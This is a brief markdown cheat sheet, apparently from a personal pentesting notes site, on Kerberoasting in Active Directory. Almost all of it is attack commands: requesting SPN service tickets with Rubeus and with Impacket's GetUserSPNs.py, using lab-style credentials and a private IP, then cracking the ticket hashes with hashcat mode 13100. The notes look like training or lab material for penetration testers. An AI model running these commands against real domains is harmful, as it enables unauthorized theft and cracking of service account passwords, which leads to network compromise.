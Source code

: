 +++
title = "Kerberoasting"
author = ["svejk"]
tags = ["activeDirectory", "kerberos"]
draft = false
+++

## Kerberoasting {#kerberoasting}

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.


### Rubeus {#rubeus}

```shell { linenos=true, linenostart=1 }
Rubeus.exe kerberoast
```

Then crack the hashes with hashcat

```shell { linenos=true, linenostart=1 }
hashcat -m 13100 -a 0 hash.txt Pass.txt
```


### Impacket {#impacket}

```shell { linenos=true, linenostart=1 }
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.239.179 -request
```
